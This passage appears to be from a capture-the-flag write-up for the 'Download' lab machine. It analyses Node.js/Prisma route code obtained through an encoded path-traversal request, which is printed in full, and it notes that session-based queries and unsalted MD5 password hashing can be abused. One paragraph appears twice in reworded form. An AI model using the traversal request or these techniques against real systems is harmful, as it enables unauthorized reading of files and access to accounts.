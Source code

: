 
The download endpoint in this route uses the `findFirst()` prism function to get file entries from the database. If there's no entry for the given file the name property is set to unknown. Then it queries the database for the `fileEntry` and retrieves three properties, `name`, `private` and `authorID` from the database. If the private property is true or the user id doesn't match the `authorId` its will return a 404. This explains why I couldn't read files with file traversal.

The download endpoint in this route uses the `findFirst()` function from Prisma to fetch file entries from the database. If there's no record for the given file, the name property is set to "unknown". Subsequently, it queries the database for the `fileEntry` and retrieves three properties: `name`, `private`, and `authorID`. If the `private` property is true or the user ID doesn't match the `authorId`, it returns a 404. This explains why file traversal didn't work for reading files beyond the root directory.

#### Home route

_routers/home.js_

{{< highlight javascript "hl_lines=2 3" >}}
router.get("/", auth_1.default, async (req, res) => {
    const files = await client.file.findMany({
        where: { author: req.session.user },
        select: {
            id: true,
            uploadedAt: true,
            size: true,
            name: true,
            private: true,
            authorId: true,
            author: {
                select: {
                    username: true,
                },
            },
{{< /highlight >}}

In this route, multiple files for a user are fetched using Prisma's `findMany()` function. The conditional is that the author parameter matches the user object from the session. This implies that I can view different users' home pages as long as I have a valid user object in the session.

#### Auth route

_routers/auth.js_

{{< highlight javascript "hl_lines=4 9-10 18" >}}

> http -pb http://download.htb/files/download/%2e%2e%2frouters%2fauth.js
...snip...
const hashPassword = (password) => {
    return node_crypto_1.default.createHash("md5").update(password).digest("hex");
};
...snip...
...snip...
router.post("/login", async (req, res) => {
    const user = await client.user.findFirst({
        where: { username: data.username, password: hashPassword(data.password) },
    });
    if (!user) {
        res.flash("error", "That username / password combination did not exist.");
        return res.redirect("/auth/register");
    }
    req.session.user = {
        id: user.id,
        username: user.username,
    };
    res.flash("success", "You are now logged in.");
...snip...